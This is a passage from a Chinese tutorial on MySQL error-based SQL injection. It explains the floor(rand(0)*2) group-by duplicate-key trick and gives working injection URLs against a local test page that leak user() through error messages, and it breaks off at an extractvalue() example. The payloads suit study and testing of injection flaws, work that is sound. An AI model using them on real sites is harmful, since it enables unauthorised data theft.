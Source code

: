     ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'

第6种：

    ERROR 1062 (23000): Duplicate entry '0' for key 'group_key'

这里很容易地可以知道第5、6种情况是因为计算 ``floor(rand()*2)`` 时，产生了相同的值从而产生了重复的行而报错。

这里为了让每次 ``floor(rand()*2)`` 都产生同样的值，可以设置一个随机种子（一般为0），像这样：``floor(rand(0)*2)``。

然后再次测试，这里为了尽可能多地出现不确定且可重复的值，将查找表换为 ``information_schema.tables``：

    mysql> select count(*),floor(rand(0)*2) from information_schema.tables group by 2;

此时就必报错：

    ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'

因此我们可以将需要查询的语句与`floor(rand(0)*2)`进行字符连接，就可以通过报错来得到信息。

    mysql> select count(*),concat(user(),floor(rand(0)*2)) from information_schema.tables group by 2;

得到`user()`的数据：

    ERROR 1062 (23000): Duplicate entry 'root@localhost:sqli1' for key 'group_key'

### 0x03 报错注入方法

法一：`floor()`or`round()`函数，group by利用：

    floor：函数只返回整数部分，小数部分舍弃。
    round：函数四舍五入，大于0.5的部分进位，不到则舍弃。

example1：

    select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a

本地环境测试：

    http://localhost/sqli/index.php?name='+or+(select+1+from+(select+count(*),concat(user(),floor(rand(0)*2))x+from+information_schema.tables+group+by+x)a)+%23&pass=1

报错注入得到：

    Operation error: Duplicate entry 'root@localhost1' for key 'group_key'

example2：

    select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2))

本地环境测试：

    http://localhost/sqli/index.php?name='+or+(select+count(*)+from+information_schema.tables+group+by+concat(user(),floor(rand(0)*2)))+%23&pass=1

报错注入得到：

    Operation error: Duplicate entry 'root@localhost1' for key 'group_key'

法二：`extractvalue()`函数，利用XPath语法错误导致报错：

    extractvalue(1,concat(user())
